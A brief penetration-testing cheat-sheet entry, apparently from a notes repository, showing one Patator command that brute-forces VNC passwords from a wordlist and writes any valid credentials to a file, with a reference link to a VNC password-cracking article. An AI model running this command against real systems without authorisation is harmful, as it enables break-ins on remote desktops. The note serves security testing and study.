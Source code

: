 # Patator

```
$ patator vnc_login host=<IP> password=FILE0 0=passwords.lst -t 1 -x retry:fgrep!='Authentication failure' --max-retries 0 -x quit:code=0 -R vnc_creds.txt
```

---
## References

- [Hacking Articles: Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)